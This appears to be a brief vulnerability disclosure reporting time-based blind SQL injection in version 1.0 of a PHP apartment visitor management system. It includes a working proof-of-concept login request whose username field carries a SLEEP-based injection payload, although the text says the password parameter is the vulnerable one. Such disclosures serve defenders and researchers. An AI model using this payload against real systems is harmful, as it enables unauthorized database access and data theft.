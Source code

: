 # Apartment Visitor Management System-SQL injections

### Date: 

> ### 2022-08/06



### Exploit Author:

> ### anx0ing@gmail.com



### Vendor Homepage: 

> [https://www.sourcecodester.com](https://www.sourcecodester.com/)



### Software Link: 

> https://www.sourcecodester.com/php-apartment-visitor-management-system-source-code



### Version: 

> ### 1.0



### /index.php

`password`Parameters have SQL injections

> POC

```
login=&password=admin123&username=' AND (SELECT 4955 FROM (SELECT(SLEEP(5)))RSzF) AND 'htiy'='htiy
```

![image-20220806001643822](https://cdn.jsdelivr.net/gh/beytagh001/blog-img/image-20220806001643822.png)
